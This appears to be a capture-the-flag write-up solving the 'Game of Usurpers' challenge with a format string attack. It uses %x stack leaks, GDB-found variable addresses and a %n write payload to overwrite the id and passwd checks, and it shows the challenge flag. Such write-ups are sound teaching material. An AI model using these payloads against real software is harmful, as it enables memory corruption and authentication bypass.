 # Game of Usurpers

## Challenge 
> You said that you're our Emperor, but you just lost your crown while you were hunting. As a matter of fact, every nobles have their own ID and password. You have to tell us your ID and Password to prove your claim. 

>[Source.](game_of_usurpers.c)

## Hint
> What happens if you say something OTHER than yes or no?

> If permission denied when running the file, try  `chmod a+x`

## Solution

References

- https://github.com/zst-ctf/picoctf-2018-writeups/blob/master/Solved/authenticate/
- https://axcheron.github.io/exploit-101-format-strings/

### Format string attack

If we don't input either yes or no, it will print our input value


	$ while read -r line; do echo -e $line; done | ./game_of_usurpers
    You said that you're our Emperor, but you just lost your crown while you were hunting
    As a matter of fact, every nobles have their own ID and password
    And, you have to tell us your ID and Password to prove your claim. Would you? (yes/no)
    %1$x
    What are you mumbling about:

    804a1e7
    Sorry, you are not our Emperor! Go and never return, you liar!

Since we want to modify `id` and `passwd`, let's first find their address through GDB

	gdb-peda$ p &id
    $1 = (<data variable, no debug info> *) 0x804c04c <id>
    gdb-peda$ p &passwd
    $2 = (<data variable, no debug info> *) 0x804c050 <passwd>


For format string, we need to first find out what buffer area we can control to select the address of the `id` and `passwd` variables

	$ while read -r line; do echo -e $line; done | ./game_of_usurpers
    You said that you're our Emperor, but you just lost your crown while you were hunting
    As a matter of fact, every nobles have their own ID and password
    And, you have to tell us your ID and Password to prove your claim. Would you? (yes/no)
    %x %x %x %x %x %x %x %x %x %x %x %x
    What are you mumbling about:

    804a1e7 f7ede580 80493d1 0 0 f7f27000 ffeab934 0 534 3e8 25207825 78252078
    Sorry, you are not our Emperor! Go and never return, you liar!

So we can control offset 11 and upwards. All we need to do is put  `0x804c04c` (the address of `id`) and `0x804c050` (the address of `passwd`) in the offsets so that we can use `%n` to write to them.

	\x4c\xc0\x04\x08\x50\xc0\x04\x08%11$n%12$n

The result is like so

    $ while read -r line; do echo -e $line; done | ./game_of_usurpers
    You said that you're our Emperor, but you just lost your crown while you were hunting
    As a matter of fact, every nobles have their own ID and password
    And, you have to tell us your ID and Password to prove your claim. Would you? (yes/no)
    \x4c\xc0\x04\x08\x50\xc0\x04\x08%11$n%12$n
    What are you mumbling about:

    LP�
    Sorry, you are not our Emperor! Go and never return, you liar!

As you can see, we haven't succeeded in capturing the flag because the `id` has to be exactly `1234` and the `passwd` has to be exactly `5678`. We can ensure that those exact values are written to the addresses of those variables by padding the input with the correct size. Since the input already contains 8 bytes from the address, we need to pad it using `%1226x` so that the program will write 1226 + 8 = 1234 bytes to `id`. Then, we need to pad it again using `%4444x` so that the program will write 1234 + 4444 = 5678 bytes to `passwd`. The resulting attack string is as follows

    \x4c\xc0\x04\x08\x50\xc0\x04\x08%1226x%11$n%4444x%12$n

## Flag

	
	$ while read -r line; do echo -e $line; done | ./game_of_usurpers
    You said that you're our Emperor, but you just lost your crown while you were hunting
    As a matter of fact, every nobles have their own ID and password
    And, you have to tell us your ID and Password to prove your claim. Would you? (yes/no)
    \x4c\xc0\x04\x08\x50\xc0\x04\x08%1226x%11$n%4444x%12$n
    What are you mumbling about:

    LP






                                                                                                                   804a1e7



























                                                                                                                                      f7ecf580
    This way, Your Highness.
    CSCE604258{ha_ha_ha_ha}